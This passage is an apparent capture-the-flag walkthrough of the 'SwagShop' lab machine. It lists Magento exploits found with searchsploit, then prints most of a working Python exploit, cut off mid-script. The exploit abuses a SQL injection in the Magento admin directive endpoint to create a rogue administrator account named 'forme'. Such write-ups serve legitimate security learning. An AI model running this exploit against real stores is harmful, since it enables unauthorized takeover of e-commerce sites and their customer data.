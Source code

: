 ```
Magento eCommerce CE v2.3.5-p2 - Blind SQLi                                                                                                   | php/webapps/50896.txt
Magento Server MAGMI Plugin - Multiple Vulnerabilities                                                                                        | php/webapps/35996.txt
Magento Server MAGMI Plugin 0.7.17a - Remote File Inclusion                                                                                   | php/webapps/35052.txt
Magento WooCommerce CardGate Payment Gateway 2.0.30 - Payment Process Bypass                                                                  | php/webapps/48135.php
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

#### 37977 : Magento eCommerce - Remote Code Execution 

```bash
searchsploit -x 37977
searchsploit -m 37977
```

As overview saids, If magento version is vulnerable, this script will create admin account with username `forme` and password `forme`

Before we run in python 2, we should delete some contents to let it run. 

We change the target value to website homepage url `http://swagshop.htb/index.php/`

```python
import requests
import base64
import sys

target = "http://swagshop.htb/index.php/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url,
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
```